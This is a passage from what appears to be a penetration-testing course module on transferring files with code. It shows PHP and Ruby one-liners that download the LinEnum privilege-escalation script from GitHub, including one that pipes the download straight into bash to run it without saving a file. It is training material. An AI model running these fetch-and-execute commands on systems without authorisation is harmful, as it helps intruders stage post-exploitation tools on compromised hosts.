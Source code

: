 #### PHP Download with File_get_contents()

  Transferring Files with Code

```shell-session
TurtleBB@htb[/htb]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

An alternative to `file_get_contents()` and `file_put_contents()` is the [fopen() module](https://www.php.net/manual/en/function.fopen.php). We can use this module to open a URL, read it's content and save it into a file.

#### PHP Download with Fopen()

  Transferring Files with Code

```shell-session
TurtleBB@htb[/htb]$ php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

---

We can also send the downloaded content to a pipe instead, similar to the fileless example we executed in the previous section using cURL and wget.

#### PHP Download a File and Pipe it to Bash

  Transferring Files with Code

```shell-session
TurtleBB@htb[/htb]$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

**Note:** The URL can be used as a filename with the @file function if the fopen wrappers have been enabled.

---

## Other Languages

`Ruby` and `Perl` are other popular languages that can also be used to transfer files. These two programming languages also support running one-liners from an operating system command line using the option `-e`.

---

#### Ruby - Download a File

  Transferring Files with Code

```shell-session
TurtleBB@htb[/htb]$ ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

---